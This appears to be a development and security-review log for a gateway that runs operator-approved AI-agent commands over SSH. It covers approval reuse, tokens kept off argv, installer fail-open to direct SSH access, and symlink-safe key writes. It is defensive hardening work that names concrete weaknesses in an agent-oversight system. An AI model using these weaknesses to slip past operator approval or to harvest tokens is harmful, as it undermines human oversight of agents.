  leaves the dict reads alone. The add-on `options` field is still dropped by
  the whitelist.
* **D14.** `session_conclude` takes `title` (stored on a new `title` column,
  used by a promoted runbook before the summary). `tags` and `follow_ups`
  must be arrays (`tags_not_a_list` / `follow_ups_not_a_list`), and the
  `too_many_*` / `*_too_long` errors carry a `message` naming the limit.
* **D15.** A confirmed conclusion no longer blocks a later one: the confirmed
  row stays and a new draft is inserted for the operator (the newest row is
  the one `get_for_agent` returns). `UNIQUE(session_id, agent)` is gone from
  new databases and is migrated away on startup (table rebuild, ids and FTS
  preserved); the old `already_confirmed` refusal is retired.
* **D16b.** A `pct exec <vmid>` row leaves a vmid-only guest stub in the
  inventory; when the Proxmox source knows that vmid, the stub is dropped, so
  `whereis <vmid>` has one named answer.
* **D18a.** A failed DNS lookup returns `status: error` (with the reason),
  not `ran` with no record.
* **D18b (root cause found and fixed).** `seed_pihole_tools` never passed
  `handler` to `create_tool`/`update_tool`, so a live install's
  `local_dns_records` row had `handler=''` and `path_template=''`; the call
  went to the integration's base URL (Pi-hole's HTML login page) and the
  inventory recorded `bad_json`. The earlier tests created the tool with the
  handler set, so they could not see it. Both calls now pass
  `handler=tool.get('handler')` (the other seeders' pattern), and a re-seed
  repairs a row the old seeder left empty. Tests:
  `tests/test_x6_pihole_seed.py` — a fresh seed has the handler, a re-seed
  repairs the legacy row, and the inventory source runs the seeded tool
  through `_call_tool` with a recorded v6 response. The audit the reviewer
  asked for is the same file's last test: every seeder is run on a fresh
  integration and every resulting tool must have a handler or a
  `path_template`. It reports **none** with both empty; the curated catalogs
  with an empty `path_template` (commute, the HA Lovelace tools, web fetch,
  train, generic passthrough) all carry a handler, and the generic tools are
  the intended passthrough (they take their path/command from the
  integration at seed time).

**BK5 (security ruling, 2026-11-12).** Taken: `find_live_request` returns
nothing unless both `agent` and `session_id` are non-empty, so an unsigned
re-run always gets a new card; tests cover a signed reuse, an unsigned fresh
card, a different agent/session, and the two-identical-pending-cards case.
`test_f3_session_plans` is back to its original boundary: its caller is
unsigned, so a spent plan's re-run is a new pending card.

`bash scripts/verify.sh`: `2904 passed, 26 skipped, 7 warnings in 603.53s
(0:10:03)` (after the rebase onto `fix/lockbox-bi` at security's `ec18660`
and the BK5 ruling).

Tests: `tests/test_x6_agent_api.py` (12) plus the probe hostname/pending
tests in `tests/test_f15_probes.py` and the updated F3 boundary test.

`bash scripts/verify.sh`: `2854 passed, 26 skipped, 7 warnings in 581.01s
(0:09:41)`.


### BP1 and the answers, done (feature reviewer, 2026-11-14)

* **BP1:** the migration creates no `fleet.prev`, and `has_previous()` is
  false until the first promote, so Rollback is 404. It deletes
  `static/eshu-gateway-install.sh`, `static/eshu-gateway-install.sh.bak` and
  `static/dev/eshu-gateway-install.sh` (and the empty `static/dev/`), and the
  audit row lists them. Test:
  `test_migration_starts_from_build_and_removes_the_old_copies`.
* **Answer 3:** Fleet and Edge always start from Build. Pre-X7 copies are
  never read.
* **Answer 1:** the directory mode is enforced on every start
  (`test_existing_channel_dir_is_forced_to_0700`). DEV_GUIDE says to back up
  and restore the channels with `eshu.db`, and gives the recovery path (Seed
  Edge, then Deploy to Fleet, which updates the fleet).
* **BP2:** documented in DEV_GUIDE as not yet gated; a follow-up chunk.
---

#### Security ruling on D6 (2026-11-12, at `72f2598`)

**BK5: take the recommendation. Reuse an approved row only when both
`agent` and `session_id` are non-empty.**
* For a signed caller, the gateway's `ticket_allowed` binds the claim to
  the same agent and session, so returning the existing id hands the
  approval back to the caller the operator approved.
* For an unsigned caller, `agent=''` and `session=''` match every
  unsigned caller of the same command on that host. Reuse would let a
  different direct-SSH user ride on someone else's approval.
  * BI2 keeps it to one run, but the operator approved the person who
    asked, not whoever asks first.
  * The v1 lockbox has the same weakness by design. That is no reason to
    add a second path with it.
* Unsigned callers always get a fresh card.
* Also keep `find_live_request` where it is now: after every refusal
  (freeze, zero-trust, block rules, override). A reused id must never skip
  a check that a new card would hit.
* Its expiry boundary should be the one in BK1.
* Tests:
  * a signed re-run reuses the row;
  * an unsigned re-run of the same bytes gets a new id;
  * a different agent or session gets a new id.
* I'll read the stacked X6 when it lands on `fix/lockbox-bi`.

## Gateway hardening (AF3, tee capture) · branch `fix/gateway-hardening` · gateway bash · **security reviewer sign-off**

Two items left over from earlier sign-offs: AF3 (F19 sign-off, `67bec51`) and
S1 (buffering-fix sign-off, 2026-11-10). Gateway bash only; no dashboard
change, so the compat rule (§ 2.3) is not touched.

### Design note (written before the code)

**Part A — AF3.** The session-signature check becomes
`ESHU_CHECK_SID=… ESHU_CHECK_SIG=… python3 -I - /etc/eshu-session-key /etc/eshu-session-key.prev`.
Python opens both key files itself (`.strip()`, a missing or unreadable file
is an empty key, a non-hex key is skipped exactly as before). argv carries only
the two **paths**. The session id and signature go in the child's environment,
which `/proc/<pid>/environ` shows only to root (the signature is a session
credential, and the line is being touched anyway). The comparison
(`hmac.compare_digest`, current key then `.prev`) is unchanged.

**Part B — S1, the tee capture.** Only `tail` mode changes. Today:

    cmd 2>&1 | cap_raw | sanitize | cap_visible | capture_tail "$ESHU_OUT_TAIL"

After:

    cmd 2>&1 | cap_raw | sanitize | cap_visible \
      | "${TEE_CMD[@]}" >(exec >/dev/null 2>&1
                          capture_job "$ESHU_CAP_PART" "$ESHU_OUT_TAIL")

* `tee`'s stdout is the agent. awk is no longer between the command and the
  agent, so a disconnect reaches `tee` on its next write (mawk's 4 KiB stdin
  block no longer matters). **Never `tee -p`**: `-p` would keep feeding the
  capture after the agent hangs up, and the command would never see the
  broken pipe.
* `TEE_CMD` is `tee --output-error=exit` when the host's tee accepts it
  (probed once, in `tail` mode only), else plain `tee`. *(Changed during
  implementation: the first draft said plain `tee`.)* The SIGPIPE-ignored
  test showed that plain GNU tee, with SIGPIPE ignored, drops the failed
  stdout and keeps feeding the capture, so `yes` never stopped.
  `--output-error=exit` exits on EPIPE whatever the signal disposition. With
  SIGPIPE at its default, which is what sshd gives its children, both forms
  behave the same.
* The `exec >/dev/null 2>&1` inside the substitution is required. *(Changed
  during implementation: the first draft put the redirect on the function
  call.)* A redirect on the call covers only the function's commands. The
  substitution's own bash process kept the agent's stdout and stderr open,
  and the stuck-capture test then hung for 60 s: the SSH channel never saw
  EOF.
* **The capture can never cut the agent's stream (D1).** `capture_job` runs
  `capture_tail` (the same ring, same 16 385-byte cap, stdout to `/dev/null`)
  and then `cat >/dev/null`. If awk ever died early, `cat` drains the rest, so
  `tee` never gets EPIPE from the capture side.
* **Temp name, then rename.** Each call gets a private directory
  (`mktemp -d -p /run/eshu eshu-out.XXXXXX`, 0700). The main shell creates
  `part` in it before the pipeline. `capture_job` writes the ring into `part`
  and, only if awk succeeded, renames it with `mv -fT part tail`. Whatever
  happens, its last step is `rm -rf part`. The result post reads only `tail`,
  so it sees a complete capture or none.
* **The bounded wait.** After the pipeline, the main shell waits while `part`
  still exists: `sleep 0.05`, at most `CAPTURE_WAIT_TICKS=40` times, so
  **2 s**. Normally `part` is gone in one or two ticks (awk's END plus one
  `mv`). It is a file poll, not a `wait`: the process substitution is a child
  of the `tee` pipeline element, not of the script, so the script has no PID
  to wait for, and an unbounded `wait` is ruled out anyway.
* **On timeout:** the script writes `CAPTURE TIMEOUT` to syslog and clears
  `ESHU_OUT_TAIL`, so the result is posted with exit code and duration but no
  output (the same as `CAPTURE FAILED`). The call returns. The exit code,
  the sentinel, the F19 limit marker and the agent's stream are not affected.
  The EXIT trap removes the whole private directory (`rm -rf`). A capture
  that finishes later cannot create files there, because the directory is gone.
  The stuck process is not killed: the script has no PID for it (see above).
  It holds no file descriptor of the agent's channel (its stdout and stderr
  are `/dev/null`), so it does not keep the SSH session open, and its memory
  is bounded by the ring.
* **Unchanged:** the 16 385-byte ring and its tests; F19's
  `cap_raw | sanitize | cap_visible` and the cut probe; `rc=${PIPESTATUS[0]}`
  (the command's status, never a filter's); the `[ESHU exit=N]` sentinel,
  printed by the main shell after the wait, so it is never in the capture;
  `exit-only` and `off` (no capture process at all).
* **MCP mode is not changed.** Its stream goes to `/dev/null`, not to the
  agent, so there is no live stream to take awk out of. The 65 537-byte ring
  stays the last pipeline element. It is written by END in a process the shell
  already waits for, so a partial envelope capture cannot be read.
* `capture_tail` now returns 1 after `CAPTURE FAILED` (it returned the
  logger's 0), so that `capture_job` can tell a failed write from a good one.
  Every caller ignores the status (`set +e`, `PIPESTATUS[0]`).

### Implementer notes

**Commits:** `3d21d48` design note · `d45c64d` AF3 · `3f73027` S1 (the tee
capture) · `de9773a` design-note corrections. All three installers carry the
same gateway script (`static/dev/` copied from the generated one, as it was
byte-identical at the base `7d7f3b8`).

**Tests** (new file `tests/test_gateway_hardening.py`, plus two changed F5 tests):

* `test_af3_session_check_keeps_keys_out_of_argv[valid|invalid]`: a
  `python3` stub on the sandbox PATH records every interpreter argv. The
  session check's argv is exactly `-I - <key path> <prev path>`. No call
  carries the key, the prev key or the signature. A valid signature runs the
  command and an invalid one is refused.
* `test_af3_previous_key_and_trailing_newlines_still_verify`: keys written
  with a newline verify, both current and `.prev` (the `$(cat …)` strip is
  kept).
* `test_af3_missing_prev_key_and_garbage_key_fail_closed`: a non-hex key and
  no `.prev` refuse.
* `test_af3_every_python3_in_the_gateway_is_isolated`: every `python3` call
  in the source is `python3 -I`.
* `test_s1_stuck_capture_does_not_hold_the_call[empty|PARTIAL]`: an `awk`
  stub reads its input, optionally writes a partial capture, then sleeps
  600 s. The call returns within the bound plus slack, with the command's
  stdout, exit code and sentinel. `CAPTURE TIMEOUT` is logged, the result is
  posted with no output (the half-written part is never posted), and the run
  directory is empty afterwards. This test hung for 60 s before the
  `exec >/dev/null 2>&1` fix.
* `test_s1_tail_capture_is_complete_and_inside_the_bound[mawk|gawk]`: 20 000
  lines. No timeout, the posted tail is the last 16 KiB of what the agent
  saw, and the directory is removed.
* `test_s1_tail_mode_has_no_awk_in_the_stream`: source guard. The branch ends
  in `"${TEE_CMD[@]}" >(exec >/dev/null 2>&1 … capture_job …)`, with no
  `capture_tail` in the stream and no `tee -p`.
* `test_s1_tee_capture_ends_when_the_agent_disconnects[mawk|gawk × default|ignored]`:
  function level, `yes | tee-shape | head -n 1`. The writer is stopped in
  every case, and the capture still completes (≤ 16 385 bytes). With plain
  tee the `ignored` cases hung, which is why `--output-error=exit` is used.
* `test_s1_tee_capture_is_the_visible_stream[mawk|gawk]`: the agent gets every
  byte, and the capture is exactly the last 16 385 of them.
* `test_s1_capture_that_dies_never_cuts_the_stream`: an awk that exits at once
  does not cut 1 MB of output (the `cat` drain). Nothing is renamed and
  `CAPTURE FAILED` is logged.
* `test_s1_capture_rename_refuses_a_directory[mawk|gawk]`: `mv -T` does not
  move the capture into a `tail` directory. The failure is logged and `part`
  is removed.
* `test_f5_gateway_slow_writer_dies_with_the_agent`: the mawk + `tail` skip
  is removed. This is the "slow writer under mawk stops promptly" test. It
  now also bounds the time to the first line (< 10 s). Without that bound
  the **old** pipeline passed after 62 s, because the disconnect clock
  started only once mawk released the first line. Checked: it fails on the
  base script (62.2 s) and passes here. SIGPIPE-ignored keeps its skip (GNU
  `sed`, not awk).
* `test_f5_gateway_unwritable_capture_keeps_stdout_and_exit`: replaces
  `eshu-out.*/part`, the file awk now writes, so the same END-write failure
  is injected.

**Unsure / for the reviewers:**

* **`tee --output-error=exit`** is a GNU coreutils ≥ 8.24 option. It is
  probed once per `tail` call, which costs one extra `tee` process only in
  `tail` mode. A host without it falls back to plain `tee`, which differs
  only with SIGPIPE ignored. The fallback is silent. I did not add a syslog
  line, to avoid one per call (compare N2).
* **`mv -fT`** is also GNU. Without `-T` a `tail` directory would swallow the
  capture. BusyBox `mv` may lack it, and then `tail` capture always logs
  `CAPTURE FAILED` and posts no output. That is safe but useless, and § 2.7
  already lists coreutils as a dependency.
* **The stuck process is not killed** on timeout. The script has no PID for
  it, because the process substitution belongs to the `tee` pipeline element.
  It holds no fd of the agent's channel, its memory is bounded by the ring,
  and its directory is gone. There is one narrow race: if the EXIT trap's
  `rm -rf` runs while a late awk recreates `part`, one ≤ 16 KiB directory can
  be left in `/run/eshu`. This happens only after a timeout.
* The session **signature** also moved off argv, not only the keys. It is
  the same exposure and the same line, and it costs nothing.
* **MCP mode is unchanged** (no live stream; see the design note).
* **Out of scope, not fixed:** `GatewaySandbox.run`'s hang report raises
  `TypeError` (bytes + str) when `TimeoutExpired.stdout` is bytes, so a hang
  shows as a TypeError rather than the report. I saw this while debugging.
* **`RELEASE_1.md` step 6** still describes the mawk/`tail` residual. It is
  correct for gateways older than this branch. Whether to reword it depends
  on which gateway version the release ships, so I left it for the reviewer.

`bash scripts/verify.sh`: `2837 passed, 4 skipped, 7 warnings in 681.30s (0:11:21)` (mawk and gawk both installed here, so the awk matrix ran in full).

### Reviewer notes

_(reviewer)_

### Reviewer notes (main feature reviewer, 2026-11-12, code round 1)

**Approved from the feature side; to the security reviewer (gateway bash, § 2.6a).** Rechecked locally: the three installers carry the gateway script byte for byte, every `python3` in the gateway runs with `-I`, and `tests/test_gateway_hardening.py` plus `tests/test_f5_exec_results.py` pass (65 passed, 4 skipped; mawk and gawk both present).

What I checked:
* AF3: argv holds only the two key paths; the id and signature go through the child's environment (readable by the same uid and root only). A missing or unreadable key file is an empty key, so it fails closed exactly as `cat || echo ""` did. Taking the signature off argv as well is right.
* S1: awk is out of the agent's stream, `part` exists before `tee` starts (so the poll cannot see "done" too early), only a finished ring is renamed to `tail`, `duration_ms` is taken before the wait, and a timeout posts no output instead of a partial one. The `exec >/dev/null 2>&1` inside the substitution is the real fix for the 60 s hold; good that the test caught it.

For the security reviewer to rule on (none blocks from my side):
* AX1: **a stuck capture is not killed on timeout.** It holds no part of the agent's channel and its memory is bounded, but each stuck call leaves a root process behind. A cheap fix: `capture_job` writes its `$BASHPID` into the private directory and the timeout path kills that process group. Your call whether this is a must or a recorded residual.
* AX2: **hosts without `tee --output-error`** (coreutils < 8.24, BusyBox) fall back to plain `tee` silently. With SIGPIPE at its default (the sshd case) that behaves the same; with SIGPIPE ignored, the command runs to completion after a disconnect, as it did before the buffering fix. `mv -T` is GNU too, so BusyBox gets CAPTURE FAILED and no output, which is safe.
* AX3 (should, feature side): the `GatewaySandbox.run` TypeError on timeout hides the diagnostic report. Fix it in this branch if it is a one-liner, otherwise in the next test-harness change.

At merge (reviewer): `RELEASE_1.md` step 6 gets "the mawk delay applies only to gateways installed before this fix".

### Reviewer notes (security reviewer, 2026-11-12, code round 1 at `896e59a`)

**Approved for merge. No must items.** I read the gateway hunk and checked
that the three installers carry the same changed lines as `eshu-gateway.sh`.

What I checked:
* **AF3.**
  * argv holds `-I -` and the two key paths only.
  * The id and signature are prefix assignments on the `python3` call. They
    are not exported to the shell or to the command that runs later.
  * `-I` and the fixed `PATH` (line 5) leave no interpreter search path an
    agent can steer.
  * A missing or unreadable key is empty and skipped, a non-hex key is
    skipped, and a non-ASCII signature makes `compare_digest` raise, which
    exits non-zero. All three fail closed.
  * `.strip()` is a little wider than `$(cat)` (it also strips leading
    blanks). That is harmless for a hex key.
* **S1.**
  * The private directory comes from `mktemp -d` (0700, root), so the
    `mv -fT part tail` and the `rm -rf` act inside a directory no other
    user can write. There is no symlink race.
  * `ESHU_CAP_DIR` is reset at the top of `run_sanitized` and set only from
    `mktemp -d`, so the trap's `rm -rf` cannot be pointed elsewhere.
  * `part` exists before the pipeline, and the post reads only `tail`, so a
    partial ring is never posted.
  * Only `tee` holds the substitution's write end, so the capture sees EOF
    when `tee` exits.
  * The `exec >/dev/null 2>&1` keeps the capture off the SSH channel.

**AX1: recorded residual, not a must. Do not use the suggested
process-group kill.**
* Only an awk that never ends can leave the capture behind. Agent output
  cannot cause that: the ring is linear, and `cap_visible` bounds the input
  first. So the leftover root process needs a broken awk, not a hostile
  agent.
* The gateway runs without job control. The capture, the command and the
  gateway script itself all share one process group, so
  `kill -- -<pgid>` would kill the gateway along with the capture.
* If you want the kill anyway (a should, not needed for this merge):
  * `capture_job` writes `$BASHPID` to `pid` in the private directory.
  * On timeout the main shell kills that PID and its children
    (`pkill -P`, then `kill`), never a group.
  * It does this before the EXIT trap removes the directory.
  * The PID is safe to trust because only root can write the directory, and
    the process is still alive when it is read.
* Record the residual in § 2.7 in one line: "after a capture timeout, a
  stuck capture process may remain; it holds no agent fd and at most 16 KiB".

**AX2: recorded residual, not a must.**
* Plain `tee` with SIGPIPE ignored lets an approved command run on after a
  disconnect. It still ends at its F19 time limit and stays inside its
  approval, so nothing new is granted. It is the same behaviour as before
  the fix.
* sshd starts the gateway with SIGPIPE at its default, so the fallback
  matters only for an unusual parent.
* Keeping the fallback silent is right (compare N2).
* Add one line to § 2.7's dependency list: "coreutils ≥ 8.24
  (`tee --output-error`, `mv -T`) for the tail capture; older or BusyBox
  hosts get no tail capture or no stop-on-disconnect with SIGPIPE ignored".

**AX3:** feature side; fixed in `5c1e290`, no security view.

**BA1 (should, later chunk, dashboard side): show a missing capture as
missing.**
* On `CAPTURE TIMEOUT` or `CAPTURE FAILED` the gateway posts
  `"encoded_output":""`. The dashboard then shows a command that printed
  nothing, not one whose output was lost.
* An agent cannot force either event today, so this is not exploitable now.
  But an empty result row should not be what the operator reads as
  "it printed nothing".
* Fix: a literal field, `"capture":"missing"` (one fixed value, like
  `limit`), that the dashboard renders as "output not captured".
* Not in this branch, because the branch makes no dashboard change. Put it
  in the next F5 or F19 change.

At merge: the feature reviewer's `RELEASE_1.md` step 6 line, as noted.

---

---

## Hotfix — installer re-registration (RR1) · branch `fix/installer-reregister` · installer · **security reviewer sign-off**

The fix is described in commit `2da685e`: the existing token is loaded
before `/api/register`, there is one `register_gateway()` reading the HTTP
status, and `ssh_mode` is taken only from a 200.

### Reviewer notes (security reviewer, 2026-11-12, at `2da685e`)

**Approved once BE1 and BE2 are in. Both are small.** The three changed
installers carry identical hunks.

What I checked:
* **The token is charset-checked before it reaches a `-H` argument.** That
  also stops header injection from a tampered token line.
* **The 401 retry cannot take over a known gateway.** `/api/register`
  refuses a no-token registration for any IP it already knows, whatever
  enrollment token comes with it. So the retry succeeds only for a gateway
  that was removed from the dashboard, which is what it is meant for.
* **A failed call keeps the old token,** and `/etc/eshu-token` is written
  only when there is a token.
* **The status line cannot be spoofed:** curl appends it after the body.
* **A rejected token in a 200 keeps the old one.**

**BE1 (must, RR-b): a failed registration must not widen SSH access.**
* On a non-200 answer, `GATEWAY_SSH_MODE` falls back to `direct+mcp`. A
  reinstall then writes the shared `eshu-gateway-key` line back onto an
  `mcp_only` gateway.
* Anyone who can make the dashboard unreachable for 15 s during a reinstall
  gets direct mode back. That is fail-open.
* Fix: when the registration did not return 200, skip the `authorized_keys`
  rewrite entirely. Leave the file exactly as it is and print why.
  * On a reinstall the gateway keeps the keys it had.
  * On a fresh install it gets none and is unreachable until a re-run
    succeeds, which fails closed.
* Test: a reinstall of an `mcp_only` gateway with a stub returning 401 or
  000 leaves `authorized_keys` byte-identical.
* **Operator check, outside the repo:** until this fix, every reinstall got
  a 401, so every `mcp_only` gateway reinstalled since the registration
  auth change may have the shared line back. List the `mcp_only` gateways
  and look for an `eshu-gateway-key` line in each one's `authorized_keys`.

**BE2 (must, release): regenerate `dashboard/static/dev/eshu-gateway-install.sh`
in this branch.**
* It is not in the diff, so it still has the old order.
* `deploy-dashboard.sh` resets `static/dev/` to the committed copy, so the
  first dev update after the deploy still gets 401. That is the release
  test that found the bug.
* Worse, `/api/dev/promote` copies the dev installer over the golden one
  and the source file. A promote made before anyone presses "Seed Edge"
  would put the bug back into the fleet installer.
* `fix/gateway-hardening` regenerated all three copies. Do the same here.

**RR-a: recorded, not fixed in this hotfix. BE3 (should, own chunk).**
* The gateway token in a curl `-H` argument is visible in `/proc` while
  the call runs. But the gateway script and the poller send it the same way
  on every ticket, result and status call (in the gateway script alone:
  tickets, results, request status). Fixing only the installer would close
  one of many windows.
* Move every curl header that holds a secret to `-H @file`, from a 0600 file
  or a process substitution, across the installer, the gateway and the
  poller. The secrets are the gateway token and the enrollment token.
  `-H @file` needs curl ≥ 7.55; if older curl matters, use `-K -` with the
  headers on stdin.
* Scope it like AF3, with a test that no curl argv carries a token.

**RR-c: yes, in principle, as its own small change after this hotfix
(BE4).** The update installer is already fetched from the dashboard and
runs as root, so a dashboard key line adds no trust the update does not
already have. Conditions:
* **Only the dashboard line changes.**
  * Only a line with the exact `--dashboard-key` forced-command prefix and
    the ` eshu-dashboard` comment is replaced or added.
  * Every other line is left byte-identical, including the `eshu-gateway-key`
    line (or its absence on `mcp_only`).
* **Keep `from=`.** `ALLOWED_SSH_FROM` is not known on update. Take `from=`
  from the existing Eshu lines. If the existing lines carry a `from=` that
  cannot be parsed, change nothing. A dashboard line must never be less
  restricted than the gateway line beside it.
* **Validate the key.** It must be one line in the form
  `ssh-ed25519 <base64>`, with no options of its own. An empty key leaves
  the existing line in place; it does not delete it.
* **Only after a 200 registration** (BE1's rule).
* **Write safely.** This runs as root in a directory the gateway user owns.
  * Create the temp file with `mktemp` in `.ssh/` (O_EXCL, so a planted
    symlink is never followed), then `mv` it into place.
  * Refuse when `.ssh` or `authorized_keys` is a symlink, or not owned by
    the user.
  * The install path's fixed `authorized_keys.tmp` name has the same
    planted-symlink problem today. Fix it in the same change.

**The two dev gateway tokens printed during diagnosis:** a model session's
context leaves the machine, so treat both as exposed. Rotate them now by
remove and re-enrol: they are dev gateways, and that is cheap. The
token-rotation action belongs in the backlog. Shape:
* the dashboard mints a new token;
* the token reaches the gateway only over its authenticated update channel;
* the old token stays valid until the gateway's first call with the new one,
  within a bounded grace period;
* it is audited, and the token is never shown.

### Reviewer notes (security reviewer, 2026-11-12, re-read at `f67e136`)

**BE1 and BE2 are in. Approved for merge and deploy** on the operator's
go-ahead.

* **BE1.**
  * `REGISTER_OK` is cleared before the call and set only on a 200, so it
    cannot come in from the environment.
  * The key block runs only when it is `1`. A missing `DASHBOARD_URL`
    therefore also leaves `authorized_keys` alone, which fails closed.
  * The failure branch no longer sets a mode, and `GATEWAY_SSH_MODE` is
    initialised at the top of the script, never taken from the environment.
* **BE2.** All four installer files are byte-identical, and a test enforces
  it.
* **The live check** (no `mcp_only` gateway, nothing to repair) closes
  BE1's operator item.
* **After the deploy:** rotate the two exposed dev tokens by re-enrolling
  those gateways with the fixed installer, as planned. BE3, BE4 and token
  rotation go into the plan as their own chunks at merge.

## Follow-ups from the RR1 hotfix (security reviewer rulings, 2026-11-12)

Three small chunks. Each one touches gateway-side scripts, so each needs the **security reviewer's sign-off** (§ 2.6a).

### BE3 — secret headers off argv · branch `fix/secret-headers`

* Every `curl` that sends a token (`X-Gateway-Token`, `X-Enrollment-Token`) takes its headers from a root-only file or a here-string (`-H @file` or `-H @-`), never from argv. This covers the installer, the gateway script and the poller.
* Test: a stub `curl` records argv for every call path and asserts that no token appears in it.
* Why: argv is readable by any local user through `/proc` while the call runs (RR-a, recorded as a residual).

**Implementer notes (BE3).** Every token header now travels on stdin
(`-H @-`); `printf` is a shell builtin, so the value never becomes an argv
element.

* **Gateway** (`eshu-gateway.sh`): `gateway_header` emits the one header and
  every call pipes it: the two `/api/log` calls, the JIT `/api/request`,
  `/api/request_status`, both ticket claims and the result post. The result
  post puts its body on stdin; BG2 gives it a private process substitution
  (`-H @<(gateway_header)`) instead of the first round's `mktemp` file in
  `/tmp`, so there is no name to race and nothing to remove.
* **Poller**: `gateway_header`/`register_headers` for the policy sync, the
  ticket poll, the uninstall-started post and both re-register calls.
* **Logger**: `gateway_header` for the heartbeat.
* **Installer**: the uninstall progress report and `register_gateway` build
  their header lines inline (`printf … | curl -H @-`), so the extracted test
  blocks stay self-contained.
* Tests: the gateway and poller curl stubs now record each call's argv (and
  drain/keep the stdin headers), the installer stub keeps the headers it
  receives on stdin, and one test per script walks the recorded argv for the
  token and both header names; the gateway test covers request, status,
  ticket, result and the window-reject log. A text test in `test_poller.py`
  refuses a new `-H "X-Gateway-Token`/`X-Enrollment-Token` anywhere in the
  four scripts. The four installers are regenerated.

`bash scripts/verify.sh`: `2889 passed, 26 skipped, 7 warnings in 586.66s
(0:09:46)` (after the rebase onto master, which brought the poller ticket-poll
fix; the poller test file keeps both sides: the `WC`/whitespace-stub tests and
the BE3 argv tests).

**Nit — IPv6 in the old-shape check (2026-11-13).** The fleet runner tells the
new poller's argv from the old one by whether `$2` looks like an address: the
old shape put the token there, the new shape puts `TARGET_IP`. The test was
`${2#*.} != $2`, so an IPv6 target (`2001:db8::5`, no dot) was read as an old
token and the runner shifted every later argument. It now treats `:` like `.`
(`${2#*[.:]}`); a token contains neither. Tests:
`tests/test_bj2_fleet_argv.py::test_bj2_an_ipv6_target_is_an_address_not_a_token`
(the address and command id reach python) alongside the old-shape test. The
runner is served statically, so the four installers do not change; they were
regenerated to confirm it.

`bash scripts/verify.sh`: `2902 passed, 26 skipped, 8 warnings in 599.71s
(0:09:59)`.

**BG1 — the curl floor.** `-H @-` (and `-H @file`) needs curl 7.55. Older
curl accepts the argument shape and silently sends no header, so the token
never leaves the host and every registration or poll 401s with no clue. The
installer now checks `curl --version` in `check_curl_version` right after the
systemd preflight — before the uninstall branch, the Hermes migration, the
mode split, `useradd` or any file write — for install, reinstall, update and
migrate; `--uninstall` is exempt so a gateway can still be removed on a host
we no longer install to. The refusal prints the found version, the reason and
"Nothing on this host has been changed". Tests stub `curl --version` with
7.52.0 and 7.50.1 (refused, version in the message), 7.55.0 and 8.5.0
(accepted), a PATH with no curl (refused as not found), and a static check
that the call site sits before every write. `docs/ARCHITECTURE.md`'s Gateway
nodes section now states the 7.55 floor next to the coreutils note.

**BG2 — no header file in `/tmp`.** The result post's `mktemp` header file
became `-H @<(gateway_header)`: the header exists only as the FIFO curl reads,
has no name to race and needs no `rm`. The gateway is bash
(`#!/bin/bash`), so process substitution is available; the stub curl records
header-file content separately (`curl-headers.log`, never argv), and a test
asserts the token arrives that way for `/api/exec-result` while its argv stays
token-free and free of `mktemp`.

**Reviewer notes (security reviewer, 2026-11-12, at `e891921`).** Approved
once BG1 is in. I checked that no token remains in curl's argv in the
gateway, poller, logger or installer, and that the downloads that stay
plain carry no token.

* **BG1 (the feature reviewer's must): agreed. Two points on how to do it.**
  * The installer checks `curl --version` (≥ 7.55) **before it writes
    anything**. An update on an old host then refuses and leaves the running
    gateway and poller exactly as they were. They keep working on argv
    headers, which is the old state, not a 401 outage.
  * Test: a stub curl reporting 7.54 leaves every installed file
    byte-identical.
* **BG2 (should): agreed, and use a process substitution.**
  * `-H @<(gateway_header)` writes no file at all. A killed background
    subshell can no longer leave a token file behind, even a 0600 root one.
  * The `mktemp` file is safe as written (O_EXCL, 0600, root), so this is
    tidiness, not a hole.
* **BH3 (should, this branch or the next): secret values in `-d` bodies
  are argv too.**
  * `log_window_reject` puts `ESHU_WINDOW_TOKEN` in its `-d` argument.
  * After F22 rebases onto this branch, `/api/request`'s `-d` carries
    `check_token`.
  * Both are short-lived, and the check token is single-use and bound to
    the command and host, so neither is a must.
  * Fix: a body with a secret goes in with `--data-binary @-` on stdin, and
    the header in with `-H @<(gateway_header)`. That is the same split
    `post_exec_result` already makes.
  * Extend the argv test to the window token and the check token.

**BG1/BG2/BH3 in the code (2026-11-12).**

* BG1 is `check_curl_version`, called right after the systemd preflight and
  before the uninstall branch, the Hermes migration, the mode split,
  `useradd` and every write; `--uninstall` is exempt so a gateway can still
  be removed. Tests cover 7.52.0, 7.54.0 and 7.50.1 (refused with the
  version and "Nothing on this host has been changed"), 7.55.0 and 8.5.0
  (accepted), and a PATH without curl (refused as not found). Security's
  "a 7.54 host keeps every installed file byte-identical" is proved by
  `test_bg1_no_write_can_run_before_the_check`: it walks the template up to
  the call site (skipping function definitions) and finds no `mkdir`,
  `useradd`, `chown`, `chmod`, `rm`, `mv`, `cp`, `install -`,
  `systemctl enable/start/daemon-reload`, `eshu_safe_replace`,
  `write_gateway` or `cat >` there, so a 7.54 run cannot have written
  anything before it refuses.
* BG2 is `-H @<(gateway_header)` for the result post, as recommended: no
  file, no name, no `rm`. The gateway is bash, so process substitution is
  available. The stub curl reads a header file handed by path into
  `curl-headers.log` (never argv), and a test asserts
  `X-Gateway-Token: test-token` arrives that way while the argv line holds
  neither the token nor `mktemp`.
* BH3 (this branch): `log_window_reject` no longer puts
  `ESHU_WINDOW_TOKEN` in its `-d` argument; the body goes in with
  `--data-binary @-` and the header with `-H @<(gateway_header)`. The
  gateway argv test now also refuses `WinToken123`. The `/api/request`
  `check_token` half belongs to F22, which is with security; it will be
  moved the same way when F22 rebases onto this branch.
* All four installers regenerated.

#### Security re-read (2026-11-12, at `c79e6a2`): BG1, BG2 and BH3 are in; BJ2 is a must

* **BG1:** `check_curl_version` runs before anything is written, in every
  mode except uninstall. A missing curl or one older than 7.55 exits with
  "nothing on this host has been changed". The poller's `--update` runs
  the same script, so an old host keeps its running gateway. Good.
* **BG2:** the result post uses `-H @<(gateway_header)`, so the `/tmp`
  file is gone.
* **BH3:** the `log_window_reject` body goes on stdin with
  `--data-binary @-`.
* The three installer copies are identical.
* **BJ2 (must, this branch): two scripts outside the four that were
  swept still put the gateway token in argv.**
  * `static/features/approved_windows.sh` sends the window claim with
    `-H "X-Gateway-Token: ${GATEWAY_TOKEN:-}"`. That is in curl's argv on
    every window run, and the window token is in the URL path, which is
    in argv too.
  * The poller starts the fleet runner with
    `systemd-run ... bash fleet-runner.sh "$DASHBOARD_URL" "$GATEWAY_TOKEN" ...`.
    The runner then passes the token to `python3` in argv as well.
    * A transient unit's `ExecStart` can be read by any local user through
      `systemctl show`, for as long as the unit exists. That is worse than
      a few seconds in `/proc`.
  * Fix:
    * the runner reads the token from `/etc/eshu-token` (root `0600`; the
      runner runs as root), and the token is dropped from its arguments;
